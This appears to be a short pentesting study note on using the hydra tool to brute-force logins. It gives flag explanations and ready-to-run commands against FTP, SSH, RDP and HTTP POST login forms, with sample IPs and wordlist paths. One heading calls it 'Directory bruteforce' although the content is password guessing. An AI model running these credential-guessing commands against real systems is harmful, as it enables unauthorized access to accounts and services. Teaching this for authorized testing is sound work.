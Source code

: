 

## Directory bruteforce:
command: `hydra`

`-l`: for a single user
`-p`: for a single password
`-L`: for a list of users
`-P`: for a list of passwords
`-s`: for choosing another port if the service isn't running on default port.

`hydra -L users.txt -P passwords.txt <ip> <service>`

---
### **Brute force <mark style="background: #239b56;">ftp</mark>:**
- `hydra -L users.txt -P passwords.txt 192.168.1.21 ftp`  or <mark style="background: #f39c12;">ssh</mark> 

---

### **Brute force <mark style="background: #2e86c1;">RDP</mark>:**
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.18.9 -s 3333`  


##### **Notice we use the `-s` when the service isn't running on  the default port.** 



Also to specify a service that's not running on default port:
`hydra -L <username_list> -P <password_list> ftp://192.248.185.3:5554`



---



# **Brute force Login Page:**

Command Template: 

The `http-post-form` to make a HTTP POST request
`username=^USER^` the first `username` could be changed as it's a parameter other webapps might name it differently 
`password=^PASS^` Same as `username` 

`&` added between the ^USER^ and ^PASS^


	hydra -L Users.txt -P Passwords.txt <IP> http-post-form "/<login_url_path>:username=^USER^&password=^PASS^:<Wrong attempt message>"


Command Example:

	hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /root/Desktop/wordlists/100-common-passwords.txt 192.238.168.3 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username or password"

